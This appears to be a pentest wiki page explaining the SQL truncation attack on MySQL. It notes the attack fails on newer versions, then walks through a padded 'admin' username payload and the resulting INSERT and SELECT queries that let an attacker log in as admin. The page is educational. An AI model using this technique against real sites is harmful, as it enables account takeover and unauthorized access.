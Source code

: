 # SQL Truncation

It's an attack that **no longer works** in the latest MySQL versions.

{% embed url="http://resources.infosecinstitute.com/sql-truncation-attack/" %}

## Overview

**Prerequisites**:

* MySQL database backend

A SQL Truncation attack takes advantage of two features in MySQL to subvert application logic. These features are:

1. If the length of a VARCHAR is exceeded, then the rest of it is simply cut off (truncated) - **this is no longer a feature of MySQL**.
2. By default, MySQL ignores trailing whitespace when making comparisons ([MySQL Loose Comparisons)](../server-attacks/loose-comparisons.md#mysql)

_Note: This attack doesn't work in newer MySQL versions and other databases like PostgreSQL because an error is thrown when the length of a VARCHAR is exceeded._

## Attack Walkthrough

Let's say there's a website with a MySQL backend and a users table, where the username is of type `VARCHAR(20)`. Let's also say that there is an admin account

Register the following user:

* username: `admin (lots of spaces in between)And then whatever`
* password: `mypassword123`

It produces the following SQL query:

```
INSERT INTO users (name, password) VALUES ('admin                         (lots of spaces in between)And then whatever', 'mypassword123');
```

Because of SQL truncation to 20 characters, the above is effectively the same as:

```
INSERT INTO users (name, password) VALUES ('admin               ', 'mypassword123');
```

When you later try to log in with `admin:mypassword123`, then that produce the following query:

```
SELECT * FROM users WHERE username='admin               ' AND password='mypassword123' 
```

Because of [MySQL loose comparisons](../server-attacks/loose-comparisons.md#mysql), `admin` is the same as `admin` and you can log in as the admin user.
